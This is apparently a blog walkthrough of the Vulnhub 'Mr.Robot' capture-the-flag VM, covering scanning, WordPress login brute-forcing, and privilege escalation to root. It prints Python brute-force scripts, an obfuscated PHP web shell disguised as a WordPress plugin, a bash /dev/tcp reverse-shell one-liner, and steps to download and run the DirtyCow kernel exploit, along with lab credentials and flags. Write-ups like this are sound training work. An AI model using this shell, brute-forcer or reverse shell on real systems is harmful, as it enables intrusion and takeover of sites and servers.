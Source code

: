 ```yaml
---
title: "Vulnhub - Mr.Robot Writeup"
date: 2019-06-05T13:02:53+08:00
description: ""
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Download here

Target VM: https://download.vulnhub.com/mrrobot/mrRobot.ova

Difficulty: Beginner-Intermediate

After you download it, just import to your VMWare workstation and change the network interface type as you pleased. Network is configured via DHCP.

# Before Start

Prepare your Kali and ensure they are in the same subnet.

Open VMware workstation - Edit - Virtual network editor to get the ip range.

## Check VM IP

`nmap -sn -n 172.16.51.0/24`, found: 172.16.51.132

# GOGOGO

## Check footprint

> sudo nmap -sC -sC -oN mrbot -p1-65535 -O 172.16.51.132

Found 80,443. Nothing useful.

> sudo nikto -o ./mrrbt.txt -h 172.16.51.132 -p 80 

Found wordpress.

> gobuster -u http://172.16.51.132 -w /<PATH TO DICT>/directory-list-2.3-medium.txt -x php,html,txt,html -o mrrbot.txt

Well, there's a lot of rabbit holes. But just check StatusCode == 200

> wpscan --url http://172.16.51.132 -o ./mrbot-wpscan.txt

Wordpress scanned.

## Flag 1: robots.txt

A key file is listed and a dictionary is offered. Download them all, you get the first key.

## Flag 2

### Wordpress bruteforce

You got a dictionary. Then next? Yes, try to bruteforce.

First, try `hydra`, however, it's really slow here. 

I just write a simple Python3 script to make it much more faster.

```python3
#!/usr/bin/env python3
import requests
wordlist = open("fsocity.dic").readlines()
set = set(wordlist) # REMOVE DUPLICATES
tot = len(set)
i = 0
for w in set:
    print("{current}/{total}".format(i, tot))
    r = requests.post("http://172.16.51.132/wp-login.php", data={'log': w, 'pwd': “dummy”})
    if "Invalid username" not in r.text:
        print("USERNAME:")
        print(w)
        exit(0)
    i += 1
```


Found username: elliot

Then, Let's bruteforce the password.

```python3
#!/usr/bin/env python3
import requests
wordlist = open("fsocity.dic").readlines()
set = set(wordlist) # REMOVE DUPLICATES
tot = len(set)
i = 0
for w in set:
    print("{current_time}/{total}".format(current_time=i, total=tot))
    r = requests.post("http://172.16.51.132/wp-login.php", data={"log": "elliot", "pwd": w})
    if "is incorrect" not in r.text:
        print("password:")
        print(w)
        exit(0)
    i += 1
```

Found password: ER28-0652

After you login, check all the place you can access.

Then, You found nothing. But you can upload one plugin you love.

### Get RCE

You just use AntSword to add this shell and run it.

Example: I saved the shell code into `neshell.php` and then pack it in zip file `shitwps.zip`, then upload but **NOT ACTIVATE** .

URL: http://172.16.51.132/wp-content/plugins/shitwps/neshell.php

```
<?php
    /*
    Plugin Name: AntSword Shell
    Plugin URI: https://github.com/leonjza/wordpress-shell
    Description: Inspired by leonjza, This shell plugin is generated by Antsword.
    Author: Patrick Young
    Version: 0.1
    Author URI: https://www.kmahyyg.xyz
    */?>
<?php $JWgG=create_function(str_rot13('$').str_rot13('f').chr(01501-01322).str_rot13('z').base64_decode('ZQ=='),chr(0x13b3b/0x31f).base64_decode('dg==').chr(0610-0447).chr(56700/525).base64_decode('KA==').chr(01501-01435).chr(0x39d-0x32a).chr(68598/618).chr(0162070/01030).str_rot13('r').str_rot13(')').chr(0354-0261));$JWgG(base64_decode('NjMxN'.'Dc1O0'.'BldkF'.'sKCRf'.''.chr(0xcc88/0x268).base64_decode('RQ==').chr(14877/261).base64_decode('VA==').str_rot13('I').''.''.str_rot13('S').chr(603-487).base64_decode('bw==').chr(0152522/01173).chr(0x16f-0x102).''.'pxbGp'.'Jbl0p'.'OzE4O'.'TQ0Mj'.'U7'.''));?>
```

Work as intended. After you get shell in User `daemon`.

Get user by `cat /etc/passwd`, then you found a User `robot`, and try next to read home `/home/robot`, you will only find a password md5 and login via SSH to get the second flag.

The credential is: `robot:c3fcd3d76192e4007dfb496cca67e13b`

It's a md5sum, just use [Hashkiller](https://hashkiller.co.uk/Cracker/MD5) to crack, you find this `abcdefghijklmnopqrstuvwxyz`.

However, you cannot login...... 

According to OSCP Rules, `metasploit` automated exploit is not allowed. So 

```bash
$ bash -c 'bash -i &>/dev/tcp/192.168.1.69/4433 0<&1'
```

Reverse shell got with `nc -lvp 4433` before you issue the command above.

Then use `whereis python3` to check if Python is working. Got `Python 3.4`.

Next, Spawn a tty to login.

```
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
```

After you get a tty, then `su robot` and login.

Second flag get: `822c73956184f694993bede3eb39f959`

## Flag 3

### Privilege Escalation

After LinEnum, found nothing but kernel version is 3.13.0-55 with Ubuntu 14.04-LTS and you have `gcc-4.8`.

Well, so if you got `gcc` with such an old kernel version, you will love DirtyCow.

After some Google-fu,  Before **3.13.0-100.147** in Ubuntu 14.04 , all version are effected.

So, directly DirtyCow. The most conveninent one is exploitdb-ID-40616, you should get this source code via searchsploit:

```bash
$ searchsploit -m 40616
```

Next, Open a http server in Python3 `python3 -m http.server 8080` and just wget it in victim `wget http://192.168.1.56/40616.c` to a writable folder `/tmp` , and then compile it via GCC `gcc cowroot.c -o cowroot -pthread` and then run it `./cowroot` to get root shell, after you get root, run `echo 0 > /proc/sys/vm/dirty_writeback_centisecs` to make the shell more stable, then do anything you love, the third key is located at `/root/key-3-of-3.txt`.

Third Key, get: `04787ddef27c3dee1ee161b21670b4e4`.

# Clean UP

DIRECTLY FORCE POWER OFF AFTER YOU FINISHED DIRTYCOW!

(FINISHED)

